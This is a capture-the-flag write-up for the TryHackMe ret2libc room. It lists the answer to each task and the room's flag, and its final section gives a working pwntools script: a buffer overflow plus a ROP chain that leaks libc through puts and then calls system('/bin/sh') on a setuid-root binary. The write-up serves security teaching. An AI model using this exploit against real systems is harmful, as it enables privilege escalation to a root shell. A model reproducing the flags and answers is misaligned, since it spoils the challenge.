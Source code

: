 # ret2libc

{% embed url="https://tryhackme.com/room/ret2libc" %}
https://tryhackme.com/room/ret2libc
{% endembed %}

## Task 2 Introduction

#### What is the name of the function which is essential for ret2libc attack?

{% hint style="success" %}
`system`
{% endhint %}

## Task 4 Review of the binary

```bash
ssh andy@10.10.194.254
ls -lA
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 18-16-23.png>)

#### What are the permissions of the exploit\_me binary?

{% hint style="success" %}
`-rwsrwxr-x 1 root root`
{% endhint %}

```bash
file exploit_me
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 18-17-36.png>)

```bash
./exploit_me
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 18-19-46.png>)

```bash
python3 -c 'print("A" * 30)' | ./exploit_me
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 18-20-58.png>)

#### What is the overflow offset that we found in gdb?

```bash
 gdb -q ./exploit_me
 > pattern create
 > run
 > pattern search $rsp
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 18-34-25.png>)

{% hint style="success" %}
`18`
{% endhint %}

#### At which address will exploit\_me binary start?

```bash
checksec ./exploit_me
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 18-36-08.png>)

{% hint style="success" %}
`0x400000`
{% endhint %}

## Task 5 ASLR & GOT

### ASLR

```bash
sysctl kernel.randomize_va_space
```

![](<../../.gitbook/assets/Screenshot from 2022-05-13 18-40-11.png>)

### Global Offset Table (GOT)

After these functions are called for the first time, their real addresses are "saved" in the section of the program called .got.plt.

#### What is the name of the section of the binary which is important for our leak?

{% hint style="success" %}
`.got.plt`
{% endhint %}

## Task 6 Examining in the Ghidra

![](<../../.gitbook/assets/Screenshot from 2022-05-14 07-23-14.png>)

![](<../../.gitbook/assets/Screenshot from 2022-05-14 07-24-57.png>)

#### What is the name of the function that is under gets in .got.plt?

{% hint style="success" %}
`setuid`
{% endhint %}

## Task 7 Creating the exploit

```python
from pwn import *

context.binary = binary = './exploit_me'
elf = ELF(binary)
rop = ROP(elf)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

padding = b'A' * 18
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got.gets)
payload += p64(elf.plt.puts)
payload += p64(elf.symbols.main)

p = process()
p.recvline()
p.sendline(payload)
p.recvline()
leak = u64(p.recvline().strip().ljust(8, b'\0'))
p.recvline()

log.info(f'Gets leak => {hex(leak)}')
libc.address = leak - libc.symbols.gets
log.info(f'Libc base => {hex(libc.address)}')

payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)

p.sendline(payload)
p.recvline()
p.interactive()
```

#### What is the flag?

![](<../../.gitbook/assets/Screenshot from 2022-05-14 07-51-20.png>)

{% hint style="success" %}
`thm{dGhlIG1vc3QgcmFuZG9tIHZhbHVlIHlvdSBjb3VsZCBldmVyIGd1ZXNz}`
{% endhint %}
